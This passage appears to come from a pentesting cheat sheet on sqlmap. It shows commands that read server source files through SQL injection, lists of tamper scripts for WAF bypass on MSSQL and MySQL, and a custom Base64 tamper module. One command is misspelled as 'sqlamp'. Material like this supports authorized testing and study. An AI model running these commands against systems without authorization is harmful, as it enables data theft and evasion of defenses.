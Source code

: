 ```sh
# --batch: never ask for user input, use the default behavior
sqlmap -r request.txt --file-read "/var/www/html/index.php" --time-sec 10 --batch
sqlmap -r request.txt --file-read "/var/www/<subdomain>/index.php" --time-sec 10 --batch

sqlmap -u "http://<target-ip>/?q=test" --file-read "var/www/html/index.php" --time-sec 10 --batch
```

<br />

## Tampering

The sqlmap can be tampered by custom python script e.g. tamper.py or the default library.  
To list all tampers, run the following command.

```bash
sqlmap --list-tampers
```

### WAF (Web Application Firewall) Bypass

[This post](https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3) explains details for what each module works.

```bash
# General
sqlmap -r request.txt --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,escapequotes,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes

# MSSQL
sqlmap -r request.txt --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes

# MySQL
sqlamp -r request.txt --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
```

### Custom tamper modules (Base64 encode)

We can also create our custom modules.  
For instance, we create "tamper.py".

```py
#!/usr/bin/python3
from lib.core.convert import encodeBase64
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

def dependencies():
    pass
    
def tamper(payload, **kwargs):
    payload = encodeBase64("%s" % payload, binary=False)
    return payload
```
